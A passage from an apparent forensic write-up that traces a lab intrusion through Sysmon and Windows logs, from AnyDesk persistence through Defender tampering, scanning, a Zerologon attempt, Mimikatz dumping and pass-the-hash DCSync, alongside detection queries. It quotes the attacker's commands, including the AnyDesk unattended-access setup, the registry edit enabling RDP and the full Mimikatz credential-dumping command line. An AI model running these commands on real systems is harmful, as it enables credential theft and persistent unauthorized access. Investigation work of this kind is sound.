At **09:33:05.811**, Sysmon Event ID 1 recorded the execution of `AnyDesk.exe` with arguments specifying a silent installation into `C:\ProgramData\AnyDesk` and automatic startup with Windows. At **09:33:15.161**, another process creation event showed the execution of `AnyDesk.exe` with the `--start-service` argument, indicating an attempt to start the AnyDesk service.

These activities suggest that the attacker was establishing an additional remote access mechanism to maintain access to the compromised server.

```
anydesk.exe --install C:\programdata\anydesk --start-with-win -silent
anydesk.exe --start-service
```

<figure><figcaption><p>AnyDesk Silent Installation.</p></figcaption></figure>

<figure><figcaption><p>AnyDesk Service Startup.</p></figcaption></figure>

#### Unattended Access Configuration

At **09:33:25.109**, an additional `cmd.exe` process was executed to pipe a password into AnyDesk's `--set-password` option, indicating an attempt to configure **unattended remote access**.

Subsequently, at **09:33:53.315** and **09:34:24.670**, two separate executions of `AnyDesk.exe --get-id` were recorded, suggesting that the attacker was attempting to retrieve the AnyDesk identification number required for remote connectivity.

Collectively, these commands indicate an effort to configure persistent remote access without requiring an interactive user to approve each connection. However, successful unattended access configuration and remote connection establishment require additional confirmation.

```
cmd.exe /S /D /c "echo P@ssword1 | anydesk.exe --set-password"
anydesk.exe --get-id
```

<figure><figcaption><p>AnyDesk Unattended Access Configuration.</p></figcaption></figure>

<figure><figcaption><p>ID Retrieval Attempts.</p></figcaption></figure>

### 5. Remote Desktop Protocol (RDP) Configuration

Further examination of the same elevated process tree revealed additional activity targeting **Remote Desktop Protocol (RDP)** configuration.

At **09:34:40.717**, `reg.exe` was executed to query the configured RDP listening port from the Windows Registry. Shortly afterward, at **09:34:50.887**, another registry command attempted to set `fDenyTSConnections` to `0`, which is used to allow Remote Desktop connections.

```
reg query "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0
```

<figure><figcaption><p>RDP Registry Configuration.</p></figcaption></figure>

<figure><figcaption><p>RDP Registry Configuration.</p></figcaption></figure>

The attacker then executed `netsh.exe` at **09:35:03.856** to enable the Windows Firewall rule group associated with Remote Desktop. At **09:35:12.801**, a further firewall command to create an inbound rule allowing TCP connections on port **3389**.

This sequence indicates that the attacker was preparing an additional remote access path through RDP.

<figure><figcaption><p>Windows Firewall Rule Modification.</p></figcaption></figure>

<figure><figcaption></figcaption></figure>

### 6.  `u1.bat` Artifact

#### 1. Artifact Analysis – Recovered u1.bat Script

After reconstructing the sequence of commands executed through the SYSTEM-level shell, I returned to the compromised **VULNSRV** host to examine the previously identified `u1.bat` file, located in the Confluence installation directory.

Upon inspecting the script, I discovered that it contained the **same account-management commands observed in the Sysmon process creation logs**. The script defined a local username and password, dynamically resolved the built-in Administrators group using its SID (`S-1-5-32-544`), created the `noname` account, added it to the Administrators group, and disabled password expiration.

This finding established a strong correlation between the recovered batch script and the administrative activities previously identified during the investigation.

<figure><figcaption><p>Recovered u1.bat Script Containing Local Administrator Account Creation Commands.</p></figcaption></figure>

#### 2. Correlating u1.bat with Sysmon Events

Correlation of the recovered `u1.bat` commands with Sysmon process creation events on VULNSRV.

| Timestamp (UTC) | Command in u1.bat                                 | Sysmon Evidence         |
| --------------- | ------------------------------------------------- | ----------------------- |
| 09:32:43.584    | Enumerating the Administrators group using WMIC   | Event ID 1 – `cmd.exe`  |
| 09:32:58.329    | Creating the local user account `noname`          | Event ID 1 – `net.exe`  |
| 09:32:58.449    | Adding `noname` to the local Administrators group | Event ID 1 – `net.exe`  |
| 09:32:58.482    | Disabling password expiration for `noname`        | Event ID 1 – `WMIC.exe` |

Together, the recovered batch script and correlated Windows telemetry provide strong evidence that the attacker used a staged account-management script to establish **persistent administrative access** on VULNSRV. Although the available logs do not explicitly show the execution of `u1.bat` by filename, the matching command sequence provides compelling evidence of its involvement in the observed post-exploitation activity.

### AnyDesk Network Connection Analysis – Potential Remote Access Session

Continuing the investigation, I examined **Sysmon Event ID 3 (Network Connection)** to identify network activity associated with `AnyDesk.exe`.

At **09:35:34.439**, the AnyDesk service (PID 4644), running under **NT AUTHORITY\SYSTEM**, initiated an outbound TCP connection from **VULNSRV (192.168.30.10)** to **10.10.10.10:7070**.

<figure><figcaption><p>AnyDesk Outbound TCP Connection to 10.10.10.10:7070.</p></figcaption></figure>

Just **53 milliseconds later**, at **09:35:34.492**, another network event revealed an **inbound TCP connection** from **10.10.10.10:51928** to **VULNSRV:7070**, with `Initiated: false`.

<figure><figcaption><p>AnyDesk Inbound TCP Connection from 10.10.10.10.</p></figcaption></figure>

Notably, **10.10.10.10** was the same IP address previously associated with the suspicious payload's network communication. This correlation provides strong evidence of direct network interaction between the compromised server's AnyDesk service and the same external system.

However, while these events confirm bidirectional TCP connection activity, further process and session analysis is required to determine whether an authenticated remote-control session was established.

### AnyDesk File Transfer Activity – Suspicious Tool Deployment

Further investigation of **Sysmon Event ID 11 (File Creation)** revealed that `AnyDesk.exe` created multiple suspicious files on **VULNSRV** following the previously identified inbound connection from **10.10.10.10**.

Starting at **09:37:26**, several executables, including `DC.exe`, `netscan.exe`, `rpcdump.exe`, and `zero.exe`, were created under the newly established administrative account's desktop (`C:\Users\noname\Desktop\`). Additionally, at **09:42:25**, a collection of **Mimikatz-related files**, including `mimikatz.exe`, `mimilib.dll`, and `mimidrv.sys`, appeared on the system, followed by `secretsdump.exe` at **09:44:27**.

The creation of these files by the AnyDesk process, combined with their timestamps and destination paths, strongly suggests that the remote access tool was used to transfer additional post-exploitation utilities. These findings indicate potential preparation for **network discovery, credential access, and further lateral movement**, although subsequent process execution events are required to confirm whether the transferred tools were actually used.

<figure><figcaption><p>Suspicious File Creation Associated with AnyDesk on VULNSRV.</p></figcaption></figure>

<figure><figcaption><p>Suspicious File Creation Associated with AnyDesk on VULNSRV.</p></figcaption></figure>

To further reconstruct the attacker's post-exploitation activities, I decided to investigate each suspicious file individually, following the **chronological order of its creation timestamp**. By correlating file creation events with subsequent process execution, network connections, and other relevant telemetry, I aimed to determine how each tool was used and its role in the overall attack chain.

## Defense Evasion – Microsoft Defender Tampering via DC.exe

Following the file creation event associated with `DC.exe`, I investigated its execution using Sysmon telemetry. At **09:37:31.526**, **Sysmon Event ID 1** revealed that `DC.exe` was launched from `C:\Users\noname\Desktop\` by `explorer.exe` under the `VULNSRV\noname` account.<br>

<figure><figcaption><p>Execute DC.exe by explorer.exe</p></figcaption></figure>

To identify the executable, I extracted its **SHA-256 hash** from the Sysmon logs and searched for it on **VirusTotal**. The analysis identified the file as **dControl.exe (Sordum Defender Control v2.1)**, a legitimate utility designed to manage Microsoft Defender. Notably, **52 out of 68 security vendors flagged the file as malicious or potentially unwanted**, with several classifying it as a Defender-disabling hacktool. This finding raised further suspicion that the attacker was leveraging the utility for **defense evasion**.

<figure><figcaption><p>VirusTotal Analysis Identifying DC.exe as Defender Control, Flagged by 52 Security Vendors.</p></figcaption></figure>

<figure><figcaption><p>From Official website of Tool.</p></figcaption></figure>

The process tree revealed multiple instances of `DC.exe`, progressing from **Medium** to **High** and subsequently **SYSTEM integrity levels**. Notably, at **09:37:34**, the executable accessed `TrustedInstaller.exe` and launched another instance using the `/TI` argument.

```
host.hostname:"VULNSRV" and
 (event.code:"1" or event.code:"10") and
 process.name:"DC.exe" and
@timestamp >= "2026-09-23T09:37:33Z" and
 @timestamp <= "2026-09-23T09:37:35Z"
```

<figure><figcaption></figcaption></figure>

Further analysis of **Sysmon Event ID 13 (Registry Value Set)** revealed extensive modifications targeting Microsoft Defender services and protection settings. These included setting the `Start` value of `WinDefend`, `WdFilter`, `WdNisDrv`, and `WdNisSvc` to `4`, effectively configuring these services and drivers to be disabled.

```
host.hostname:"VULNSRV" and event.code:"13" and process.name:"DC.exe" and ( registry.path:WinDefend or registry.path:WdFilter or registry.path:WdNisDrv or registry.path:WdNisSvc )
```

<figure><figcaption><p><strong>Microsoft Defender Services and Drivers Configured for Disabled Startup.</strong></p></figcaption></figure>

<figure><figcaption></figcaption></figure>

Additionally, the investigation identified registry modifications setting `DisableAntiSpyware`, `DisableAntiVirus`, and `DisableRealtimeMonitoring` to `1`, indicating further attempts to disable Microsoft Defender protection capabilities.

```
host.hostname:"VULNSRV" and event.code:"13" and process.name:"DC.exe" and ( registry.path:DisableAntiSpyware or registry.path:DisableAntiVirus or registry.path:DisableRealtimeMonitoring )
```

<figure><figcaption><p><strong>Microsoft Defender Antivirus and Real-Time Protection Registry Modifications.</strong></p></figcaption></figure>

<figure><figcaption></figcaption></figure>

Further examination revealed additional registry modifications targeting Windows Security startup behavior and the execution configuration of `MpCmdRun.exe`. Notably, a `Debugger` value was configured under the Image File Execution Options registry path for `MpCmdRun.exe`, potentially interfering with the execution of this legitimate Microsoft Defender utility.

```
host.hostname:"VULNSRV" and event.code:"13" and process.name:"DC.exe" and ( registry.path:SecurityHealth or registry.path:mpcmdrun.exe )
```

<figure><figcaption><p><strong>Windows Security Startup and MpCmdRun.exe Execution Configuration Modifications.</strong></p></figcaption></figure>

<figure><figcaption></figcaption></figure>

Collectively, these findings demonstrate a deliberate attempt to impair Microsoft Defender through a legitimate administrative utility, consistent with (**T1562.001)**

#### Environment-Wide Hunt – Defender Control Activity

Expanding the investigation across all monitored hosts revealed that **Defender Control (`DC.exe`)** was executed on three systems: **VULNSRV, BACKUP, and FILE-SERVER**, with associated registry modifications recorded on each host.

However, I decided to complete the investigation of **VULNSRV** before examining the attacker's activities on the other two systems.

<figure><figcaption><p>Environment-Wide Detection of Defender Control Execution Across Three Hosts.</p></figcaption></figure>

<figure><figcaption><p>Registry Modifications Associated with Defender Control Across Three Hosts.</p></figcaption></figure>


#### Investigation Tip – Identifying Defender Tampering

When investigating potential defense evasion, look for suspicious processes modifying **Microsoft Defender registry settings**, especially changes to `WinDefend`, `WdFilter`, or `DisableRealtimeMonitoring`.

Correlate **Sysmon Events ID 1, 10, and 13** to trace process execution, access to privileged processes such as `TrustedInstaller.exe`, and subsequent registry modifications.

**Tip:** Don't rely on filenames or hashes alone. Tools like Defender Control can be renamed, so focus on their behavior.


### Network Discovery – netscan.exe Investigation

```
host.hostname:"VULNSRV" and process.name:"netscan.exe"
```

Following the transfer of `netscan.exe` through AnyDesk at **09:37:58.375**, I continued investigating its execution using **Sysmon Event ID 1 (Process Creation)**. At **09:38:03.651**, the executable was launched from `C:\Users\noname\Desktop\` by `explorer.exe` under the `VULNSRV\noname` account. Further examination revealed that the tool was identified as **SoftPerfect Network Scanner v26.9** and subsequently executed from its installation directory under `Program Files`.

<figure><figcaption></figcaption></figure>

By correlating **Sysmon Events ID 3 (Network Connection)** and **ID 22 (DNS Query)**, I identified **two distinct internal network scanning activities**. The first occurred between **09:39:26 and 09:39:50**, while the second took place between **09:58:04 and 09:58:28**. Both scans targeted internal systems within the `192.168.20.x` subnet, suggesting that the attacker was mapping the internal network and identifying potential targets for lateral movement.

### Internal Network Discovery – First Network Scan

#### 1. Identifying the First Scanning Activity

```
host.hostname:"VULNSRV" and
 process.name:"netscan.exe" and
 event.code:("3" or "22") and
@timestamp >= "2026-09-23T09:39:26Z" and
 @timestamp <= "2026-09-23T09:39:51Z"
```

Following the execution of **SoftPerfect Network Scanner**, I investigated its network activity using **Sysmon Event ID 3 (Network Connection)** and **Event ID 22 (DNS Query)**.

<figure><figcaption><p>Initial DNS Queries and Network Connections Generated by SoftPerfect Network Scanner.</p></figcaption></figure>

At **09:39:26.190 UTC**, the scanner (PID 1428), running under the `VULNSRV\noname` account, began performing reverse DNS lookups against internal IP addresses.

<figure><figcaption><p>Initial DNS Queries</p></figcaption></figure>

Just **21 milliseconds later**, at **09:39:26.211**, the first network connection event was recorded, originating from **VULNSRV (192.168.30.10)** and targeting **192.168.20.1** on UDP port 137.por&#x20;

<figure><figcaption><p>Port 137 scan</p></figcaption></figure>

Over the following seconds, the scanner generated **34 network connection events**, targeting five internal IP addresses within the `192.168.20.x` subnet. The activity continued until **09:39:50.212 UTC**, revealing a coordinated internal network discovery operation originating from the compromised server.

#### 2. Internal Host and Service Discovery

Further examination of the network events revealed that `netscan.exe` systematically probed five internal systems: **192.168.20.1, 192.168.20.10, 192.168.20.40, 192.168.20.50, and 192.168.20.60**.

The observed activity included probes targeting **SMB (445), RPC (135), RDP (3389), Kerberos (88), NetBIOS (137), SNMP (161), and mDNS (5353)**, as well as TCP port **6160**.

Of particular interest were the repeated probes against **192.168.20.40, 192.168.20.50, and 192.168.20.60**, which shared several targeted services, including SMB, RDP, and TCP/6160. This pattern suggests that the attacker was examining accessible systems and their exposed services to identify potential targets for subsequent lateral movement.

Network Scan Results – First Scan

| Target IP       | TCP Ports            | UDP Ports      |
| --------------- | -------------------- | -------------- |
| `192.168.20.1`  | —                    | 137, 161, 5353 |
| `192.168.20.10` | 88, 135, 445, 3389   | 137, 161, 5353 |
| `192.168.20.40` | 135, 445, 3389, 6160 | 137, 161, 5353 |
| `192.168.20.50` | 135, 445, 3389, 6160 | 137, 161, 5353 |
| `192.168.20.60` | 445, 3389, 6160      | 137, 161, 5353 |

Ports observed in Sysmon Event ID 3 during the first scan; repeated connections to the same port are shown once.

```
host.hostname:"VULNSRV" and
 process.name:"netscan.exe" and
 event.code:"3" and
  network.transport:"tcp" and
@timestamp >= "2026-09-23T09:39:26Z" and
 @timestamp <= "2026-09-23T09:39:51Z"
```

<figure><figcaption><p>TCP Service Discovery Across Internal Hosts, Including SMB, RPC, and RDP.</p></figcaption></figure>

#### 3. Reverse DNS Enumeration

In parallel with the network scanning activity, **Sysmon Event ID 22** recorded reverse DNS queries for the targeted internal IP addresses, including `192.168.20.1`, `192.168.20.10`, `192.168.20.40`, `192.168.20.50`, and `192.168.20.60`.

These queries attempted to resolve IP addresses into hostnames, indicating that the scanner was gathering additional information about the internal network environment.

The DNS responses returned **QueryStatus 9003 (Name Error)** for these lookups, indicating that the corresponding PTR records could not be resolved.

```
host.hostname:"VULNSRV" and
 event.code:"22" and
 process.name:"netscan.exe" and
@timestamp >= "2026-09-23T09:39:26Z" and
 @timestamp <= "2026-09-23T09:39:52Z"
```

<figure><figcaption><p>Reverse DNS Enumeration of Internal Network Addresses.</p></figcaption></figure>

#### 4. Investigation Findings – First Scan

The first scanning sequence, conducted between **09:39:26 and 09:39:50 UTC**, revealed that the attacker used **SoftPerfect Network Scanner** to enumerate internal hosts and services within the `192.168.20.x` subnet.

The discovery of multiple systems exposing administrative and file-sharing services, particularly **SMB, RPC, and RDP**, suggests that the attacker was identifying potential entry points for further lateral movement.

This activity aligns with **MITRE ATT\&CK T1046 – Network Service Discovery**, and marks a significant step in the attacker's progression from the initially compromised DMZ server toward the internal infrastructure.


Although a second network scan was identified at **09:58:04**, I decided to postpone its investigation and continue analyzing the remaining suspicious files transferred through **AnyDesk** and executed after the first scan. By following the attack timeline chronologically, I aimed to reconstruct the attacker's activities leading up to the second scanning phase.


### RPC-Based Vulnerability Reconnaissance – CheckVuln.bat

Following the initial internal network scan, I examined another suspicious artifact transferred through AnyDesk: `C:\Users\noname\Desktop\Attacker\CheckVuln.bat`.

Static analysis revealed that the batch script was designed to perform RPC-based reconnaissance against a user-specified IP address or domain. It invoked `Release\rpcdump.exe` and filtered the output for **MS-RPRN** and **MS-PAR**, two Microsoft RPC protocols associated with remote printing services.

The script classified a target as potentially vulnerable when either protocol was identified. This suggests that the attacker was preparing to identify systems exposing print-related RPC interfaces, potentially for subsequent authentication coercion or lateral movement techniques.

<figure><figcaption><p>Content of CheckVuln.bat</p></figcaption></figure>

#### RPC-Based Vulnerability Reconnaissance – Execution Analysis

To determine whether the discovered `CheckVuln.bat` script was associated with actual execution activity, I searched **Sysmon Event ID 1 (Process Creation)** for `rpcdump.exe`, the executable referenced within the batch script.

At **09:41:22.441 UTC**, Sysmon recorded the execution of `Release\rpcdump.exe @192.168.20.10`, launched by `cmd.exe` on **VULNSRV**. A second execution event was recorded at **09:41:23.780 UTC**, showing another `rpcdump.exe` process launched by an existing `rpcdump.exe` process with the same target argument.

The command line closely matched the RPC enumeration command embedded in `CheckVuln.bat`, establishing a strong correlation between the recovered script and the observed execution activity. Notably, the target address, **192.168.20.10**, had already been identified during the initial internal network scan.

This activity indicates that the attacker progressed from broad network service discovery to **targeted RPC interface enumeration**, using `rpcdump.exe` to examine a specific internal host for print-related RPC interfaces such as **MS-RPRN** and **MS-PAR**.

<figure><figcaption><p>rpcdump.exe Execution Against 192.168.20.10 Following the Initial Network Scan.</p></figcaption></figure>

<figure><figcaption></figcaption></figure>

Further analysis of **Sysmon Event ID 1** revealed that, at **09:41:22.655 UTC**, just **214 milliseconds** after the execution of `rpcdump.exe`, a `findstr.exe` process was launched by the same parent `cmd.exe` (PID 4300).

The command line, `findstr /C:"MS-RPRN" /C:"MS-PAR"`, matched the filtering arguments embedded in the recovered `CheckVuln.bat` script. Additionally, the process was executed with **High Integrity** under the `VULNSRV\noname` account, with its working directory set to `C:\Users\noname\Desktop\Attacker\`.

The matching command lines, shared parent process, and execution directory provide strong evidence that the attacker executed the RPC vulnerability-checking sequence against **192.168.20.10**, specifically searching for the **MS-RPRN** and **MS-PAR** interfaces associated with Windows remote printing services.

<figure><figcaption><p>findstr.exe Filtering RPC Enumeration Results for MS-RPRN and MS-PAR Interfaces.</p></figcaption></figure>


To investigate the outcome of this probing activity, I correlated **Sysmon Event ID 3** network telemetry from both **VULNSRV** and the targeted domain controller. The logs confirmed a TCP connection from **192.168.30.10** to **192.168.20.10** on port **135 (RPC Endpoint Mapper)**, establishing that the RPC enumeration attempt reached the target.

<figure><figcaption></figcaption></figure>

However, the available telemetry did not capture the RPC interface enumeration results, preventing confirmation of whether **MS-RPRN** or **MS-PAR** was identified. Nevertheless, the activity demonstrates targeted RPC reconnaissance consistent with [**T1046 – Network Service Discovery**](https://attack.mitre.org/techniques/T1046/).

Shortly afterward, at **09:42:08 UTC**, the attacker executed `zero.exe` with arguments targeting the domain controller, marking the next stage of the intrusion investigation.

### Zerologon Exploitation Attempt – zero.exe

Following the RPC-based reconnaissance against the Domain Controller, the attacker proceeded to execute another suspicious tool, `zero.exe`, from the compromised **VULNSRV** host.

At **09:42:08.832 UTC**, **Sysmon Event ID 1 (Process Creation)** recorded the execution of `C:\Users\noname\Desktop\zero.exe` through the previously identified interactive `cmd.exe` session under the `VULNSRV\noname` account.

The observed command line was:

`zero.exe DC DC administrator -c "whoami"`&#x20;

<figure><figcaption><p>Execution of zero.exe with Domain Controller Targeting Arguments.</p></figcaption></figure>

The arguments identify the Domain Controller (`DC`), the `administrator` account, and the `whoami` command. This execution pattern is consistent with an attempted remote exploitation workflow targeting the Domain Controller, potentially involving **CVE-2020-1472 (Zerologon)**, a vulnerability affecting the Microsoft Netlogon Remote Protocol.

A second `zero.exe` process was created at **09:42:09.288 UTC**, with the original `zero.exe` process recorded as its parent.

Further examination of **Sysmon Event ID 3 (Network Connection)** revealed subsequent network activity originating from `zero.exe` toward the Domain Controller at **192.168.20.10**. The observed connections included TCP port **135**, associated with RPC Endpoint Mapper, and TCP port **5007** at **09:42:10.133 UTC**.

<figure><figcaption></figcaption></figure>

These events establish a chronological relationship between the suspicious tool execution and RPC-related communication with the targeted Domain Controller.

To investigate whether the attempt affected the Domain Controller, I examined the available Windows Security and System logs on **DC**. The reviewed telemetry did not reveal a corresponding **Event ID 4742** indicating a computer account modification.

A **NETLOGON Event ID 5836** was also identified at **09:47:35.046 UTC**. However, the event described the successful binding of the Netlogon service to a TCP/IP port with its configured connection backlog, rather than an explicit detection or rejection of a vulnerable Netlogon secure-channel request.

Consequently, the available evidence establishes an attempted interaction with the Domain Controller using `zero.exe`, but does not independently confirm successful Zerologon exploitation, modification of the `DC$` account password, or remote execution of `whoami` on the target.

Shortly afterward, the attacker continued with additional activity on VULNSRV, including the execution of **Mimikatz** for credential-related operations.<br>

## Credential Access: LSASS & SAM Memory Dumping (Mimikatz)

Following the Zerologon exploitation attempt against the Domain Controller, I continued tracing the attacker's activities on **VULNSRV**. The investigation revealed a transition toward local credential access, with the deployment and subsequent execution of **Mimikatz**, a tool capable of extracting authentication material from Windows systems.

Analysis of **Sysmon Event ID 11 (File Creation)** revealed that, at approximately **09:42:25 UTC**, multiple files associated with Mimikatz were staged under `C:\Users\noname\Desktop\`, alongside a command script named `!start.cmd`. This activity occurred shortly before the first observed execution of `mimikatz.exe` at **09:42:41 UTC**, providing a clear chronological link between tool staging and credential-access activity.

```
host.name: "vulnsrv" and event.code: "11" and process.name: "AnyDesk.exe"
```

<figure><figcaption><p>Staging of the <code>mimikatz</code> directory structure via <code>AnyDesk.exe</code> (Sysmon Event ID 11).</p></figcaption></figure>

<figure><figcaption><p>Creation of the automated execution script <code>!start.cmd</code> on the desktop (Sysmon Event ID 11).</p></figcaption></figure>

Inspecting the contents of `!start.cmd` ([T1059.003](https://attack.mitre.org/techniques/T1059/003/)), I discovered that it was crafted to automate the entire extraction routine while minimizing visual artifacts. The script adjusted the console geometry (`mode con: cols=50 lines=30`), disabled command echoing, created an output directory (`md !logs`), and launched the 64-bit binary with an explicit command sequence: `.\mimikatz\x64\mimikatz.exe "privilege::debug" "log .\!logs\Result.txt" "sekurlsa::logonPasswords" "token::elevate" "lsadump::sam" exit`.

<figure><figcaption><p>Content of !start.cmd file.</p></figcaption></figure>

I systematically correlated this execution across the host event logs to validate its direct interaction with kernel memory and authentication databases:

*   **Privilege Escalation & Memory Access:** The executable requested `SeDebugPrivilege` ([T1134.001](https://attack.mitre.org/techniques/T1134/001/)) to circumvent memory protection. Examining process access records (`Sysmon Event ID 10`), I uncovered the primary evidence at `09:50:37.212`, where `mimikatz.exe` (PID 8844) opened a direct handle into `C:\Windows\system32\lsass.exe` ([T1003.001](https://attack.mitre.org/techniques/T1003/001/)) to harvest plaintext credentials and NTLM hashes from active logon sessions.\
    \
    `host.name: "vulnsrv" and event.code: "1" and "lsadump::sam"`\
    <br>

    <figure><figcaption><p>Detailed command-line parameters for <code>mimikatz.exe</code> including <code>lsadump::sam</code> and <code>sekurlsa::logonPasswords</code>.<br></p></figcaption></figure>

    `host.name: "vulnsrv" and event.code: "10" and "lsass.exe" and "mimikatz.exe"`\
    <br>

    <figure><figcaption><p>Process access handel opened by mimikatz.exe targeting lsass.exe</p></figcaption></figure>


*   **Cryptographic & Identity Library Loading:** Module load records (`Sysmon Event ID 7`) showed that `mimikatz.exe` dynamically loaded 126 DLLs ([T1003.001](https://attack.mitre.org/techniques/T1003/001/)). Key loaded images included core cryptographic providers (`rsaenh.dll`, `bcrypt.dll`) necessary for decrypting harvested structures, authentication providers (`sspicli.dll`, `logoncli.dll`), and `vaultcli.dll` used to target Windows Vault secrets.\
    \
    `host.name: "vulnsrv" and event.code: "7" and process.name: "mimikatz.exe"`\
    <br>

    <figure><figcaption><p>Dynamic loading of authentication and cryptographic modules such as vaultcli.dll</p></figcaption></figure>


*   **Local SAM Database Querying:** Following token elevation to `SYSTEM` ([T1134.001](https://attack.mitre.org/techniques/T1134/001/)), registry event logs (`Sysmon Event ID 13`) captured operations interacting directly with account subkeys under `HKLM\SAM\SAM\Domains\Account\Users\000003F2` (corresponding to local RID 1010) via `lsadump::sam` ([T1003.002](https://attack.mitre.org/techniques/T1003/002/)).<br>

    `host.name: "vulnsrv" and event.code: "13" and *SAM*`<br>

    <figure><figcaption><p>Registry queries against SAM domain account subkeys by <code>lsass.exe</code> .</p></figcaption></figure>


<figure><figcaption><p>SAM registry key modification (ForcePasswordReset) for local account RID 1010 (000003F2).</p></figcaption></figure>

*   **Artifact Generation & Attacker Verification:** At `09:42:41.993`, `mimikatz.exe` created the output log `C:\Users\noname\Desktop\!logs\Result.txt` (`Sysmon Event ID 11`). Moments later, at `09:42:58`, process creation logs (`Sysmon Event ID 1`) recorded the adversary launching `notepad.exe .\!logs\Result.txt` to manually review the stolen hashes before initiating their lateral movement phase.([T1005](https://attack.mitre.org/techniques/T1005/))\
    \
    `host.name: "vulnsrv" and event.code: "11" and file.name: "Result.txt"` <br>

    <figure><figcaption><p>Creation of the output folder and credentials log <code>Result.txt</code> </p></figcaption></figure>

    \
    `host.name: "vulnsrv" and event.code: "1" and process.name: "notepad.exe" and process.command_line:`` `_`Result.txt`_ <br>

    <figure><figcaption><p>Execution of <code>notepad.exe</code> to inspect the harvested credentials in <code>Result.txt</code></p></figcaption></figure>

## Remote Credential Dumping – Impacket secretsdump.exe

### 1. Tool Staging – AnyDesk File Creation

Following the Mimikatz activity, I continued examining file creation events associated with `AnyDesk.exe`. At **09:44:27 UTC**, Sysmon Event ID 11 recorded the creation of `C:\Users\noname\Desktop\secretsdump.exe` on VULNSRV.

The executable corresponds to Impacket's `secretsdump` utility, a Python-based tool commonly used to extract Windows authentication material, including NTLM hashes, LSA secrets, and Active Directory credentials. The observed `.exe` format is consistent with packaging Python-based tooling to run without a separate Python installation.

```
host.hostname:"VULNSRV" and
 event.code:"11" and
 process.name:"AnyDesk.exe" and
 
file.name:"secretsdump.exe"
```

<figure><figcaption><p>Sysmon Event ID 11 Recording secretsdump.exe Being Written to the Compromised VULNSRV Host by AnyDesk.exe.</p></figcaption></figure>

### 2. Repeated Execution – Pass-the-Hash Attempts

To investigate how the attacker used the tool, I examined Sysmon Event ID 1 (Process Creation). Between **09:45:06 and 09:51:54 UTC**, eight executions of `secretsdump.exe` were initiated through the interactive `cmd.exe` session, each followed by a child `secretsdump.exe` process.

The recorded commands used the `-hashes` argument to authenticate as `Administrator` against **192.168.20.10**. Across these executions, the attacker supplied three distinct NTLM hash values, demonstrating repeated attempts to authenticate to the Domain Controller using password hashes rather than plaintext credentials.(**T1550.002 – Pass the Hash**.)

```
host.hostname:"VULNSRV" and
 event.code:"1" and
 process.name:"secretsdump.exe" and
@timestamp >= "2026-09-23T09:44:27Z" and
 @timestamp <= "2026-09-23T09:57:00Z"
```

<figure><figcaption><p>Sysmon Event ID 1 Showing Repeated secretsdump.exe Executions Against the Domain Controller Using Multiple NTLM Hashes.</p></figcaption></figure>

### 3. Failed and Successful Authentication on DC

To determine the outcome of these authentication attempts, I correlated the process executions on VULNSRV with Windows Security Event IDs **4625 (Failed Logon)** and **4624 (Successful Logon)** on the Domain Controller.

```
host.hostname:"DC" and
 event.code:("4624" or "4625") and
 source.ip:"192.168.30.10" 
and
 related.user:"Administrator" and
@timestamp >= "2026-09-23T09:45:00Z" and
 @timestamp <= "2026-09-23T09:52:30Z"
```

The initial executions at **09:45:06.611** and **09:45:26.282 UTC** were followed by failed NTLM network logons. However, after a different NTLM hash was supplied at **09:45:52.469**, the Domain Controller recorded a successful authentication for `DETECTIONLAB\Administrator` at **09:45:52.862 UTC**, originating from **192.168.30.10**.

<figure><figcaption><p>Windows Security Event ID 4625 Recording Failed NTLM Network Logons from VULNSRV.</p></figcaption></figure>

<figure><figcaption><p>Windows Security Event ID 4625 Recording Failed NTLM Network Logons from VULNSRV.</p></figcaption></figure>

<figure><figcaption><p>Windows Security Event ID 4624 Confirming Successful Administrator NTLM Authentication from VULNSRV.</p></figcaption></figure>

A subsequent attempt using another hash failed at **09:48:50.318 UTC**, while another successful Administrator NTLM network logon was recorded at **09:51:54.898 UTC**.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Both successful sessions used **Logon Type 3 (Network)** and were marked with **Elevated Token: Yes**, strongly correlating successful privileged authentication with the attacker's `secretsdump.exe` activity.

### 4. Privileged Authentication Sessions

Further investigation revealed two **Windows Security Event ID 4672 (Special Privileges Assigned to New Logon)** records at **09:45:52.862** and **09:51:54.898 UTC**.

```
host.hostname:"DC" and
 event.code:"4672" and
 related.user:"Administrator" and
@timestamp >= "2026-09-23T09:45:45Z" and
 @timestamp <= "2026-09-23T09:52:10Z"
```

The events were associated with `DETECTIONLAB\Administrator` and contained the same Logon IDs identified in the successful authentication records: `0x2ACFEB` and `0x13EA07`.

The assigned privileges included **SeDebugPrivilege, SeBackupPrivilege, SeRestorePrivilege, SeSecurityPrivilege, and SeImpersonatePrivilege**, demonstrating that the successful NTLM network logons established sessions with powerful administrative privileges on the Domain Controller.

<figure><figcaption><p>Windows Security Event ID 4672 Confirming Special Privileges Assigned to the Successful Administrator Sessions.</p></figcaption></figure>

<figure><figcaption><p>Windows Security Event ID 4672 Confirming Special Privileges Assigned to Administrator Sessions Following Successful NTLM Authentication.</p></figcaption></figure>

### 5. DCSync – Active Directory Replication Activity

_To determine whether the successful authentication was followed by credential-access activity, I examined **Windows Security Event ID 4662** on the Domain Controller, focusing on Active Directory replication permissions._

```
host.hostname:"DC" and event.code:"4662" and winlog.event_data.Properties:1131f6ad 
and @timestamp >= "2026-09-23T09:45:45Z" and @timestamp <= "2026-09-23T09:53:00Z"
```

<figure><figcaption></figcaption></figure>

At **09:45:56.560 UTC**, a directory service access event was recorded under the `DETECTIONLAB\Administrator` account. The event showed **Access Mask `0x100` (Control Access)** and the GUID `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`, representing **DS-Replication-Get-Changes-All**.

This permission is associated with replication of sensitive Active Directory information. Its use during the `secretsdump.exe` activity window is strongly consistent with **DCSync-style credential access (T1003.006)**.

### 6. Correlating DCSync Activity with the Authentication Session

To identify the authentication session responsible for the replication activity, I examined the **Logon ID `0x2AD34B`** recorded in Event ID 4662.

```
host.hostname:"DC" and
 event.code:"4624" and
 winlog.event_data.TargetLogonId:"0x2ad34b"and
@timestamp >= "2026-09-23T09:45:45Z" and
 @timestamp <= "2026-09-23T09:46:05Z"
```

A corresponding **Event ID 4624** was identified at **09:45:56.510 UTC**, confirming a successful NTLM network logon by `DETECTIONLAB\Administrator` from **VULNSRV (192.168.30.10:53054)**. The event recorded **Logon Type 3**, **Elevated Token: Yes**, and **Target Logon ID `0x2AD34B`**.

